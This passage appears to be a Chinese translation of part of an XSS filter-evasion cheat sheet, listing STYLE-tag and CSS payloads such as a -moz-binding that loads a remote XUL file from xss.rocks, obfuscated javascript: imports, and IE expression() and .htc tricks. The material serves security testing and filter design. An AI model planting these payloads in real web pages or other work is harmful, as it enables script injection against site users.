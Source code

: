 这只在 Gecko 渲染引擎中有效，通过将 XUL 文件绑定到父页面来工作。

```html
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
```

### 打断 JavaScript 的 STYLE 标签

这个 XSS 有时会使 IE 进入无限的警报循环：

```html
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

### 打断表达式的 STYLE 属性

```html
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

（由 Roman Ivanov 创建）

### 带有表达式的 IMG STYLE

这实际上是最后两个 XSS 向量的混合，但它确实显示了 STYLE 标签解析有多困难。这可以使 IE 进入循环：

```html
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

### 使用背景图像的 STYLE 标签

```html
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```

### 使用背景的 STYLE 标签

```html
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```

### 带有 STYLE 属性的匿名 HTML

IE 渲染引擎并不真正关心你构建的 HTML 标签是否存在，只要它以开放的尖括号和一个字母开头：

```html
<XSS STYLE="xss:expression(alert('XSS'))">
```

### 本地 htc 文件

这与最后两个 XSS 向量有点不同，因为它使用了必须与 XSS 向量在同一服务器上的 .htc 文件。这个示例文件通过拉入 JavaScript 并作为样式属性的一部分运行来工作：

```html
<XSS STYLE="behavior: url(xss.htc);">
```
